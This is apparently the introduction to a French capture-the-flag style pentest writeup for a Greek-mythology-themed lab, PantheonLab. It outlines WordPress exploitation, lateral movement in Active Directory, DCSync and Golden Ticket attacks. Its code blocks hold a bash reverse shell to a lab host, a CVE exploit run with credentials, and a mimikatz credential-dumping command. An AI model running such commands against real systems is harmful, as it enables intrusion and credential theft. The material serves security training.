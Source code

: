 # Introduction au Writeup

## 🎯 Objectif du Lab

Ce writeup détaille la résolution complète du lab PantheonLab, un environnement de pentest inspiré de la mythologie grecque. L'objectif est de démontrer une méthodologie complète d'audit de sécurité, de l'énumération initiale jusqu'à l'obtention des privilèges administrateur.

## 🏛️ Contexte du Scénario

Dans l'univers de PantheonLab, les dieux de l'Olympe ont modernisé leur royaume en adoptant les technologies numériques. Cependant, cette transition a introduit des vulnérabilités que nous devons identifier et exploiter pour sécuriser le Panthéon numérique.

### Machines Cibles

| Machine | IP | Rôle | Point d'Entrée |
|---------|----|------|----------------|
| **Olympe** | 192.168.56.10 | Serveur Linux/WordPress | ✅ Principal |
| **DC01** | 192.168.56.11 | Contrôleur de domaine | 🔒 Objectif final |
| **Enfers** | 192.168.56.12 | Serveur membre | 🔒 Lateral movement |

## 🔍 Méthodologie d'Attaque

### Phase 1 : Reconnaissance
- **Énumération réseau** : Découverte des machines et services
- **Énumération web** : Analyse du site WordPress
- **Recherche de vulnérabilités** : Identification des vecteurs d'attaque

### Phase 2 : Exploitation Initiale
- **Exploitation WordPress** : Bypass d'authentification
- **Obtenir un shell** : Accès initial sur Olympe
- **Élévation de privilèges** : Accès utilisateur hermes

### Phase 3 : Lateral Movement
- **Énumération Active Directory** : Découverte du domaine
- **Exploitation des credentials** : Utilisation des comptes trouvés
- **Accès aux machines Windows** : Pivot vers DC01 et Enfers

### Phase 4 : Persistence et Privilèges
- **Escalade de privilèges** : Obtenir l'accès administrateur
- **DCSync** : Extraction des hashes du domaine
- **Golden Ticket** : Contrôle total du domaine

## 🛠️ Outils Utilisés

### Énumération
```bash
# Réseau
nmap -sC -sV -p- 192.168.56.10

# Web
wpscan --url http://192.168.56.10 --plugins-detection aggressive
gobuster dir -u http://192.168.56.10 -w /usr/share/wordlists/dirb/common.txt

# Active Directory
nxc smb 192.168.56.11 -u user -p pass --shares
bloodhound-python -d pantheon.god -u user -p pass -c All
```

### Exploitation
```bash
# WordPress
python3 CVE-2025-32118.py -u http://192.168.56.10 -un hermes -p mondieu

# Reverse Shell
bash -c 'bash -i >& /dev/tcp/192.168.56.1/9001 0>&1'

# Active Directory
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"
```

## 📊 Progression Attendue

### Niveau 1 : Accès Initial
- [x] Énumération du réseau
- [x] Découverte du site WordPress
- [x] Identification de la vulnérabilité CMP Coming Soon
- [x] Exploitation et obtention d'un shell

### Niveau 2 : Élévation de Privilèges
- [x] Accès utilisateur hermes
- [x] Découverte des credentials SMB
- [x] Accès au domaine Active Directory

### Niveau 3 : Lateral Movement
- [ ] Énumération complète du domaine
- [ ] Découverte des utilisateurs et groupes
- [ ] Exploitation des vulnérabilités Kerberos

### Niveau 4 : Contrôle Total
- [ ] Escalade vers administrateur
- [ ] DCSync du domaine
- [ ] Création de Golden Ticket

## 🎭 Thématique Mythologique

Chaque étape du writeup correspond à une rencontre avec les dieux de l'Olympe :

### Hermès - Le Messager
- **Vulnérabilité** : Credentials faibles (hermes:y)
- **Scénario** : Intercepter les messages divins
- **Technique** : Brute force, exploitation WordPress

### Zeus - Le Roi des Dieux
- **Vulnérabilité** : Contrôleur de domaine
- **Scénario** : Détrôner le roi de l'Olympe
- **Technique** : DCSync, Golden Ticket

### Héra - La Reine Jalouse
- **Vulnérabilité** : Politiques de sécurité
- **Scénario** : Contourner la surveillance divine
- **Technique** : Bypass des politiques, audit evasion

## ⚠️ Avertissements Importants

!!! warning "Environnement Contrôlé"
    Ce lab est conçu pour l'apprentissage dans un environnement isolé. Ne jamais tester ces techniques sur des systèmes de production sans autorisation.

!!! info "Légalité"
    L'utilisation de ces techniques doit toujours respecter les lois locales et les autorisations appropriées.

!!! tip "Bonnes Pratiques"
    Documentez chaque étape, prenez des captures d'écran, et comprenez le "pourquoi" derrière chaque technique.

## 🎯 Objectifs d'Apprentissage

### Compétences Techniques
- **Énumération web avancée** : WordPress, plugins, vulnérabilités
- **Exploitation Active Directory** : Kerberos, DCSync, Golden Ticket
- **Lateral movement** : Pivot entre machines
- **Privilege escalation** : Windows et Linux

### Compétences Méthodologiques
- **Approche structurée** : Méthodologie de pentest
- **Documentation** : Writeup professionnel
- **Résolution de problèmes** : Debugging et troubleshooting
- **Pensée critique** : Analyse des vulnérabilités

## 📚 Ressources Complémentaires

### Documentation Technique
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [HackTricks Active Directory](https://book.hacktricks.xyz/pentesting/pentesting-active-directory)
- [BloodHound Documentation](https://bloodhound.readthedocs.io/)

### Outils et Scripts
- [PowerView](https://github.com/PowerShellMafia/PowerSploit)
- [Mimikatz](https://github.com/gentilkiwi/mimikatz)
- [BloodHound](https://github.com/BloodHoundAD/BloodHound)

---

*Prêt à commencer votre quête dans l'Olympe numérique ? Que la sagesse d'Athéna vous guide dans cette aventure épique !* ⚡🏛️ 